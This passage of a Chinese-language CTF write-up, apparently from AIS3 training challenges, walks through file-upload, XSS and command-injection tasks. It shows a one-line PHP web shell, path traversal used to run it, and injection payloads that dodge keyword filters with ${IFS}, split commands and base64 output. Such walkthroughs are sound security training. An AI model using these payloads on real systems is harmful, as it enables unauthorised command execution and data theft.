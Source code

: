 ```<?php system($_GET['cmd']);?>```
```<?php system($_GET['cmd']);?>```
![image](https://hackmd.io/_uploads/Sy85BG69C.png)
3.回到Upload Area發現連結可以去到根目錄(http://ctfd-ais3.crazyfirelee.tw:9022/post.php?form=../../../../../../../../../../../)
![image](https://hackmd.io/_uploads/HyRy8Mp5C.png)
4.把/tmp/c3644_108.160.138.201.php也貼上去
![image](https://hackmd.io/_uploads/BJlDLzTqC.png)
5.執行程式(在連結加上```&cmd=ls```)找到S3Cr3TFLAGGGGG
![image](https://hackmd.io/_uploads/BytnUMT9R.png)
6.
執行程式(在連結加上```&cmd=cat S3Cr3TFLAGGGGG```)
![image](https://hackmd.io/_uploads/H121vfp9R.png)



# 04 - Cross-Site Scripting

## XSS01 
網址: http://ctfd-ais3.crazyfirelee.tw:9031/
![image](https://hackmd.io/_uploads/Bko7ZMp9R.png)
1.輸入:```<script>alert(FLAG)</script>```
![image](https://hackmd.io/_uploads/BJ6Mbz6cC.png)



# 05 - Command Injection
## CMD01 
網址: http://ctfd-ais3.crazyfirelee.tw:9041/
![image](https://hackmd.io/_uploads/H18Xpk69C.png)
1.輸入:```;ls```
![image](https://hackmd.io/_uploads/r159p1p9A.png)
2.輸入:```;cat FLAG```
![image](https://hackmd.io/_uploads/BkRA6yT9C.png)

## CMD02 
網址: http://ctfd-ais3.crazyfirelee.tw:9042/
![image](https://hackmd.io/_uploads/HJ0FWza50.png)
1.輸入:```; echo *```
![image](https://hackmd.io/_uploads/HkSp-facR.png)
2.輸入:```;c\at FLAG*```
![image](https://hackmd.io/_uploads/BJ3mzGa9A.png)

## CMD03 
網址: http://ctfd-ais3.crazyfirelee.tw:9043/
![image](https://hackmd.io/_uploads/SyIWufpcC.png)
1.輸入:```$(l${x}s|base64${IFS}-w${IFS}0)```
![image](https://hackmd.io/_uploads/Skcmdf65A.png)
2.解密文字(base64)
![image](https://hackmd.io/_uploads/r1nLdM6q0.png)
3.輸入:```$(ca${x}t${IFS}FLAG|base64${IFS}-w${IFS}0)```
![image](https://hackmd.io/_uploads/rk0__G65C.png)
4.解密文字(base64)
![image](https://hackmd.io/_uploads/rJdquzacR.png)

## CMD04 
網址: http://ctfd-ais3.crazyfirelee.tw:9044/
![image](https://hackmd.io/_uploads/Sy8-axAqA.png)
1.輸入:```$(l${x}s|base64${IFS}-w${IFS}0)```
![image](https://hackmd.io/_uploads/rkbN6xAcC.png)
2.解密文字(base64)
![image](https://hackmd.io/_uploads/BJFrpg0q0.png)
3.輸入:```$(ca${x}t${IFS}ERRORCMDi_FLAG|base64${IFS}-w${IFS}0)```
![image](https://hackmd.io/_uploads/HktdTlA50.png)
```